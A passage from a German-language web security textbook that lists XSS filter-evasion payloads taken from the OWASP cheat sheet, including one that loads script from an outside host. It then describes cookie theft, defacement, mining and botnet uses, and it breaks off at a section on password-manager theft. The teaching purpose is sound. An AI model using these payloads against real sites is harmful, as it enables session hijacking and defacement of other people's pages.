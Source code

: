 Ein Problem an XSS-Angriffsmustern ist, dass diese sehr stark variieren können und daher schwer zu filtern sind; anbei mehrere XSS-Muster:

\begin{verbatim}
<script>alert(1);</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC="jav    ascript:alert('XSS');">
<BGSOUND SRC="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
\end{verbatim}

Eine gute Quelle für weitere XSS-Beispiele ist das OWASP XSS Filter Evasion Cheat Sheet\footnote{\url{https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet}}.

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun, negativen Einfluss auf einen Benutzer zu nehmen. Ein gutes Beispiel wäre der Versuch, das Session-Cookie des aktuellen Benutzers (des Opfers) auszulesen und an einen externen Server zu übermitteln. Auf diese Weise würde ein Identitätsdiebstal durchgeführt werden. Ein weiteres Beispiel wäre \textit{Virtual Defacement}: bei diesem wird mittels JavaScript die dargestellt Webseite verändert und dadurch ein Defacement durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte (Webseiten im Filesystem des Webservers) korrekt aussehen. In den letzten Jahren wurden XSS-Injections auch für Bitcoin/Crypto-Mining missbraucht. In diesem Fall wird jedes Opfer welches eine Webseite besucht kurzfristig Teil des Mining-Kollektivs. Last but not least kann XSS verwendet werden, um den Browser des Opfers Teil eines DDoS-Botnets zu machen. Ein berühmtes Beispiel hierfür ist die Low-Orbit Ion Cannon die z. B. auch gerne von Anonymous verwendet wurde.

\subsubsection{Stehlen von Daten aus einem Passwortmanager}

Die meisten modernen Webbrowser bieten eine Form eines Passwortmanagers an. Nach einem durchgeführtem Login werden bei einem erneuten Besuch der Seite die Login-Credentials automatisch vom Webbrowser in das Formular eingetragen.

